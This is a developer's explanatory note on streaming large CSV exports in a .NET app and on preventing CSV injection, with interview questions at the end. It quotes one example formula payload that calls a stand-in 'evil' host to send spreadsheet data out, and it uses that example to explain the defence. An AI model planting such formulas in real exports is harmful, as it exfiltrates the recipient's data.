

# 35. Streaming exports and CSV injection

## The concept in plain words

**Streaming:** an export can either *fill a tanker* (load every row into a list, build the whole
file, then send it) or run a *bucket brigade* (read a row, write it to the response, repeat). The
tanker's memory grows with the shop; with enough rows, or a few exports at once, the server falls
over. The brigade uses the same small buffer whether there are 100 rows or a million, and the
download starts at once.

**CSV injection:** a CSV file is data, but a spreadsheet *executes* any cell that starts with
`=`, `+`, `-` or `@`. A buyer who types their name as `=HYPERLINK("http://evil/?"&A2,"Click")`
turns the seller's export into an attack on the seller's own PC. The fix is to prefix such cells
with `'` so the spreadsheet shows them as text.

**Real-world analogy:** a post office forwarding letters. It doesn't stack every letter in the
building before sending any (streaming). It stamps "TEXT ONLY" on envelopes whose first line looks
like an instruction (neutralising), so the recipient's assistant never acts on them.

## Why we built it this way here

- **`AsAsyncEnumerable` all the way to `Response.Body`.** There is no `ToList`. The owned lines and
  the shipment come in the same single query, so it's one statement per file, never one per row.
- **Same filters as the screens:** the list's filter code moved into shared builders, so "what I
  filtered" and "what I downloaded" can't drift apart.
- **Neutralise only text people typed** (names, addresses, notes, items). Numbers and dates we
  format ourselves stay numbers, so `-180` is still a number Excel can sum.
- **UTF-8 with BOM**, or Excel shows Bangla as mojibake. **Phones as `01912-345678`**: a bare digit
  string loses its leading zero in Excel, and `+880...` becomes `8.8E+12`.
- **Owner only** (Syed's choice), with `Cache-Control: no-store`: the files are bulk personal data.
- **A side effect we caught:** OpenAPI built the shared `OrderSource` enum from its first use (the
  export's optional parameter) and made it nullable for every client. A schema transformer keeps
  enum schemas free of `null`.

## Interview questions

1. **How do you export a million rows without running out of memory?**
   Stream: a server-side cursor (`AsAsyncEnumerable` or `IAsyncEnumerable`), write each row to the
   response through a small buffer, no `ToList`, and avoid N+1 by projecting related data in the
   same query. For very large or slow exports, run a background job that writes to storage and
   send a link.
2. **What is CSV injection, and how do you prevent it?**
   Spreadsheet formulas in user-controlled cells (`= + - @`, tab, CR) can exfiltrate data or run
   commands when opened. Prefix such cells with `'`, quote fields per RFC 4180, and apply this only
   to untrusted text, so your own numbers keep working.
3. **What can go wrong when an endpoint streams its response?**
   The status code and headers are sent before the body, so a failure halfway leaves a truncated
   file with a 200. Validate everything before the first byte, keep the query simple and
   indexed, and for critical exports write the whole file first, or add a row count footer.
